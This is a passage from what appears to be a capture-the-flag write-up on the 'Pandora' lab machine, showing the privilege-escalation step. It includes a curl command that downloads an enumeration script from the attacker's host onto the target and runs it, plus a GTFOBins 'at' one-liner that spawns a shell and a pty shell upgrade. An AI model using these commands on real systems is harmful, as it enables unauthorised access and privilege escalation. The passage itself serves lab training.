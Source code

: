 

# Privilege Escalation
Lets check if we are able to use "sudo" command
```bash
matt@pandora:/home/matt$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
Lets upload the linux-exploit-suggester.sh tool
```bash
On our machine:
python3 -m http.server 8000
------------------------------------------------------------------
On the target machine:
curl http://{OUR_IP}:8000/linux-exploit-suggester.sh -o exploit.sh
chmod +x exploit.sh
```
Make sure that the linux-exploit-suggester.sh is on the same directory where you are serving the http server
Do the same but now uploading "LinEnum"
Now lets do

```bash
./LinEnum.sh
```
to execute LinEnum

LinEnum Output:
```bash
[-] SUID files:
... ... ... ... ... ...
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
... ... ... ... ... ...
```
https://gtfobins.github.io/gtfobins/at/#sudo

`
It can be used to break out from restricted environments by spawning an interactive system shell.`
So lets try it:

```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```
We will have to upgrade again our shell, but now we are able to use the "sudo" command
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```


Remember that we have uploaded before into the daniel /home directory a "linpeas.sh" file, so lets use it
to enumerate again but this time logged in as matt.

In the output we have found an interesting binary

